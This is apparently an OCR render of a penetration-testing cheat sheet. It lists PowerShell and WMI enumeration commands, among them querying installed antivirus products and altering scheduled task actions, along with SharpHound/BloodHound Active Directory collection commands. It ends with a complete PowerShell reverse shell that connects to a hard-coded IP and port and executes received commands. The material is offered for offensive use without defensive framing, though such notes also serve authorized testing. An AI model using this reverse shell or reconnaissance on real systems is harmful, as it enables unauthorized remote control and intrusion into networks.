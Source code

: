 ## WMIC
------
#### List Scheduled Tasks with Actions
`Get-ScheduledTask | %{"$($_.TaskName) : $($_.Actions.Execute) $($_.Actions.Arguments)"}`
#### Change Scheduled Task Action
Set-ScheduledTask MYTASK -Action $(New-ScheduledTaskAction -Action "C:\path\file.exe")
#### Raw WMIC Query
Get-CimInstance -Query "SELECT * from Win32_Process WHERE name LIKE 'P%'"
#### Get AVs Installed
+ Get-CimInstance -Namespace root\securitycenter2 AntiSpywareProduct
+  Get-CimInstance -Namespace root\securitycenter2 AntiVirusProduct
+ 

#### List All Namespaces
Get-WmiObject -Namespace root\CIMv2 -list
#### List Running Servcies
Get-WmiObject -Query "SELECT * FROM win32_service WHERE state='running'" 
#### List Services Beginning with "T"
Get-WmiObject -Query "SELECT * FROM win32_service WHERE name LIKE '[tT]%'"
#### List Processes Like "owershell"
gwmi win32_process -Filter "name LIKE ‘_owershell%'"
#### Remote Get-WMIObject Command
Get-WMIObject –ComputerName remotehost –query "Select * from Win32_Service Where Name='LanManServer'" | Format-Table

## Bloodhound
------
#### EXE Ingestor
.\SharpHound.exe --CollectionMethod All --LDAPUser <UserName> --LDAPPass <Password> --JSONFolder <PathToFile>
#### Powershell Ingestor (SharpHound.ps1)
Invoke-BloodHound -CollectionMethod All  -LDAPUser <UserName> -LDAPPass <Password> -OutputDirectory <PathToFile>
#### Start Neo4J and Import Bloodhound Results
+ systemctl start neo4j
+  Navigate to http://127.0.0.1:7373
+  Configure username and password
+  ./BloodHound-linux-x64/BloodHound
+  Authenticate to Neo4j server
+  Upload the BloodHound.zip file within the GUI.

#### PowerShell Reverse Shell
+ $client = New-Object System.Net.Sockets.TCPClient("192.168.119.140",4444)
+  $stream = $client.GetStream()
+  [byte[]]$bytes = 0..65535|%{0}
+ while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
+ $sendback = (iex $data 2<&1 | Out-String )
+ $sendback2 = $sendback + "PS " + (pwd).Path + "> "
+ $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
+ $stream.Write($sendbyte,0,$sendbyte.Length)
+ $stream.Flush()}
+ $client.Close()
